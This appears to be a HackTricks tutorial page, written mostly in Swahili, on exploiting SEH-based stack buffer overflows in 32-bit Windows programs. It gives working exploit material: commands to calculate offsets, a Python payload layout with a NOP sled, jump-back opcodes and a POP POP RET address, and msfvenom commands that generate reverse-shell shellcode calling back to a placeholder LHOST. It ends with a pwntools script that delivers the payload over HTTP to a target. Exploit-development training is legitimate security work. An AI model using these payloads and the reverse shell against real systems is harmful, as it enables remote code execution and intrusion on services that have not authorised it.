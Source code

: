 # Windows SEH-based Stack Overflow Exploitation (nSEH/SEH)

{{#include ../../banners/hacktricks-training.md}}

SEH-based exploitation ni mbinu ya klassiki kwenye Windows x86 inayotumia Structured Exception Handler chain iliyohifadhiwa kwenye stack. Wakati stack buffer overflow inapoandika juu ya uwanja mbili za 4-byte

- nSEH: kielekezi kwa rekodi ya SEH inayofuata, na
- SEH: kielekezi kwa function ya exception handler

mshambuliaji anaweza kuchukua udhibiti wa utekelezaji kwa:

1) Kuweka SEH kwa address ya POP POP RET gadget kwenye module isiyo na ulinzi (non-protected module), ili wakati exception itakapotumwa gadget irudie kwenye bytes zilizodhibitiwa na mshambuliaji, na
2) Kutumia nSEH kupitisha tena utekelezaji (kwa kawaida short jump) kurudi kwenye buffer kubwa iliyofurika ambapo shellcode iko.

Mbinu hii ni maalum kwa michakato ya 32-bit (x86). Kwenye mifumo ya kisasa, pendelea module isiyo na SafeSEH na ASLR kwa ajili ya gadget. Vinyago vibaya mara nyingi ni pamoja na 0x00, 0x0a, 0x0d (NUL/CR/LF) kutokana na C-strings na HTTP parsing.

---

## Finding exact offsets (nSEH / SEH)

- Sababisha crash kwenye process na kuthibitisha kuwa SEH chain imeandika upya (mf., kwenye x32dbg/x64dbg, angalia SEH view).
- Tuma cyclic pattern kama data inayofurika na hesabu offsets za dword mbili ambazo zinaingia kwenye nSEH na SEH.

Example with peda/GEF/pwntools on a 1000-byte POST body:
```bash
# generate pattern (any tool is fine)
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
# or
python3 -c "from pwn import *; print(cyclic(1000).decode())"

# after crash, note the two 32-bit values from SEH view and compute offsets
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x32424163   # nSEH
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x41484241   # SEH
# ➜ offsets example: nSEH=660, SEH=664
```
Thibitisha kwa kuweka alama katika nafasi hizo (mfano, nSEH=b"BB", SEH=b"CC"). Hifadhi urefu mzima usibadilike ili kufanya crash iweze kurudiwa.

---

## Kuchagua POP POP RET (SEH gadget)

Unahitaji mfululizo wa POP POP RET ili kuondoa SEH frame na kurudi ndani ya bytes zako za nSEH. Tafuta katika module isiyo na SafeSEH na ikiwezekana isiyo na ASLR:

- Mona (Immunity/WinDbg): `!mona modules` kisha `!mona seh -m modulename`.
- x64dbg plugin ERC.Xdbg: `ERC --SEH` ili orodhesha POP POP RET gadgets na hali ya SafeSEH.

Chagua anwani isiyo na badchars wakati imeandikwa little-endian (mfano, `p32(0x004094D8)`). Toa kipaumbele kwa gadgets ndani ya vulnerable binary ikiwa ulinzi unaruhusu.

---

## Mbinu ya jump-back (short + near jmp)

nSEH ni bytes 4 tu, ambayo inafaa angalau short jump ya 2-byte (`EB xx`) pamoja na padding. Ikiwa lazima uruke nyuma mamia ya bytes kufikia mwanzo wa buffer yako, tumia near jump ya 5-byte iliyowekwa kabla ya nSEH na uiunganishe nayo kwa short jump kutoka nSEH.

Kwa nasmshell:
```text
nasm> jmp -660           ; too far for short; near jmp is 5 bytes
E967FDFFFF
nasm> jmp short -8       ; 2-byte short jmp fits in nSEH (with 2 bytes padding)
EBF6
nasm> jmp -652           ; 8 bytes closer (to account for short-jmp hop)
E96FFDFFFF
```
Wazo la mpangilio kwa payload ya 1000-byte yenye nSEH kwenye offset 660:
```python
buffer_length = 1000
payload  = b"\x90"*50 + shellcode                    # NOP sled + shellcode at buffer start
payload += b"A" * (660 - 8 - len(payload))           # pad so we are 8 bytes before nSEH
payload += b"\xE9\x6F\xFD\xFF\xFF" + b"EEE"     # near jmp -652 (5B) + 3B padding
payload += b"\xEB\xF6" + b"BB"                      # nSEH: short jmp -8 + 2B pad
payload += p32(0x004094D8)                           # SEH: POP POP RET (no badchars)
payload += b"D" * (buffer_length - len(payload))
```
Execution flow:
- Exception inatokea, dispatcher anatumia SEH iliyobadilishwa.
- POP POP RET hurejesha mtiririko hadi nSEH yetu.
- nSEH inatekeleza `jmp short -8` kuelekea near jump ya 5-byte.
- Near jump inafika mwanzoni mwa buffer yetu ambapo NOP sled + shellcode ziko.

---

## Herufi mbaya

Jenga string kamili ya badchar na linganisha memory ya stack baada ya crash, ukiondoa bytes ambazo zimeharibika na parser ya target. Kwa HTTP-based overflows, `\x00\x0a\x0d` karibu daima zimeachwa nje.
```python
badchars = bytes([x for x in range(1,256)])
payload  = b"A"*660 + b"BBBB" + b"CCCC" + badchars  # position appropriately for your case
```
---

## Shellcode generation (x86)

Tumia msfvenom na badchars zako. NOP sled ndogo husaidia kuvumilia utofauti wa eneo la kutua.
```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> \
-b "\x00\x0a\x0d" -f python -v sc
```
Ikiwa unazitengeneza mara moja, muundo wa hex ni rahisi kuingiza na ku-unhex katika Python:
```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> \
-b "\x00\x0a\x0d" -f hex
```
---

## Kutuma kupitia HTTP (CRLF sahihi + Content-Length)

Wakati vector dhaifu ni mwili wa ombi la HTTP, unda ombi ghafi yenye CRLFs sahihi na Content-Length ili server isome mwili mzima uliovuja.
```python
# pip install pwntools
from pwn import remote
host, port = "<TARGET_IP>", 8080
body = b"A" * 1000  # replace with the SEH-aware buffer above
req = f"""POST / HTTP/1.1
Host: {host}:{port}
User-Agent: curl/8.5.0
Accept: */*
Content-Length: {len(body)}
Connection: close

""".replace('\n','\r\n').encode() + body
p = remote(host, port)
p.send(req)
print(p.recvall(timeout=0.5))
p.close()
```
---

## Zana

- x32dbg/x64dbg kutazama mnyororo wa SEH na kutathmini crash.
- ERC.Xdbg (x64dbg plugin) kuorodhesha SEH gadgets: `ERC --SEH`.
- Mona kama mbadala: `!mona modules`, `!mona seh`.
- nasmshell kutengeneza short/near jumps na kunakili raw opcodes.
- pwntools kutengeneza payloads sahihi za mtandao.

---

## Vidokezo na tahadhari

- Inatumika tu kwa michakato ya x86. x64 inatumia mpangilio tofauti wa SEH na SEH-based exploitation kwa ujumla haiwezi kutumika.
- Pendelea gadgets katika modules bila SafeSEH na ASLR; vinginevyo, tafuta module isiyo na ulinzi iliyopakiwa kwenye mchakato.
- Watchdog za huduma zinazorestart moja kwa moja baada ya crash zinaweza kufanya iterative exploit development iwe rahisi.

## References
- [HTB: Rainbow – SEH overflow to RCE over HTTP (0xdf)](https://0xdf.gitlab.io/2025/08/07/htb-rainbow.html)
- [ERC.Xdbg – Exploit Research Plugin for x64dbg (SEH search)](https://github.com/Andy53/ERC.Xdbg)
- [Corelan – Exploit writing tutorial part 7 (SEH)](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-7-unicode-0day-buffer-overflow-seh-and-venetian-shellcode/)
- [Mona.py – WinDbg/Immunity helper](https://github.com/corelan/mona)

{{#include ../../banners/hacktricks-training.md}}
